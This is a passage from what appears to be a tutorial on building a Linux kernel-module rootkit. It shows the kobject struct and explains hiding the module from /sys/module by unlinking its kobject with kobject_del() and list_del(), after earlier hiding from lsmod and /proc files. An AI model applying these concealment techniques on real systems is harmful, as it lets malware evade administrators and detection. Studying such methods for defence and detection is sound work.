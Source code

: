 ```c
		const char		*name;
		struct list_head	entry;
		struct kobject		*parent;
		struct kset		*kset;
		struct kobj_type	*ktype;
		struct kernfs_node	*sd; /* sysfs directory entry */
		struct kref		kref;
      #ifdef CONFIG_DEBUG_KOBJECT_RELEASE
	      struct delayed_work	release;
      #endif
	      unsigned int state_initialized:1;
	      unsigned int state_in_sysfs:1;
	      unsigned int state_add_uevent_sent:1;
	      unsigned int state_remove_uevent_sent:1;
	      unsigned int uevent_suppress:1;
};
```
```
// parameter to be inputed to kobject_del():
&THIS_MODULE->mkobj.kobj
```
b) Delete the kobject, which is mapped by our rootkit LKM from "entry" list using `list_del()`. We will be using the same `list_del()` function that we used before to delete our rootkit LKM from _`lsmod`_ command, _`/proc/modules`_ file (procfs) and _`/proc/kallsyms`_ file (procfs), but this time with different <ins>parameter value</ins>. [source: [page-6-last-paragraph](https://theswissbay.ch/pdf/Whitepaper/Writing%20a%20simple%20rootkit%20for%20Linux%20-%20Ormi.pdf)].

```c
// pwd: /lib/modules/5.11.0-49-generic/build/include/linux/kobject.h
// elixir.bootlin: pattern: entry

struct kobject {
	...
	struct list_head        entry;
	...
};
```
```
//parameter to be inputed to list_del() in this scenario:
/*
* 1. THIS_MODULE
* 2. mkobj
* 3. kobj
* 4. entry
*/

&THIS_MODULE->mkobj.kobj.entry
```

1st three, (1,2,3) are just the same as previous case. Just adding `entry` in this context.
    
> Now we can hide our rootkit LKM from **`/sys/module/`** directory (_LKM logging directory_) !
